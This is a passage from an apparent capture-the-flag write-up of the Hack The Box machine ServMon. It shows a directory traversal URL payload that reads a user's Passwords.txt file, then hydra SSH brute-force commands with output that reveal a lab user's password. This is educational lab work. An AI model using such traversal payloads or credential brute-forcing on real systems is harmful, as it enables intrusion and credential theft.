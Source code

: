 I searched for any exploits available for this and I found it is vulnerable to **Directory Traversal.**

> [https://www.exploit-db.com/exploits/47774](https://www.exploit-db.com/exploits/47774)

According to the exploit we can inject directly on the URL.

We already know there is a `Passwords.txt` is located in `Nathan's` Directory, So I captured the page request in burp and tried to get the `Password.txt` file and it worked.

> /../../../../../../../../../../../../Users/Nathan/Desktop/Passwords.txt

![https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-servmon/Untitled%202.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-servmon/Untitled%202.png)

Now we got 7 passwords, Let's try login with them.

## Getting User Shell

Since we have SSH port open, Let's try login. And we got 7 Password so instead of trying one by one, I gonna bruteforce with `hydra`.

```bash
root@w0lf:~/CTF/HTB/Boxes/ServMon# hydra -l 'nathan' -P passwords.txt 10.10.10.184 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-23 09:25:11
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
1 of 1 target completed, 0 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-23 09:25:16
```

Seems like the password didn't work for user `Nathan` so try with the another user `Nadine`

```bash
root@w0lf:~/CTF/HTB/Boxes/ServMon# hydra -l 'nadine' -P passwords.txt 10.10.10.184 ssh
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-04-23 09:36:58
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-04-23 09:37:03
```
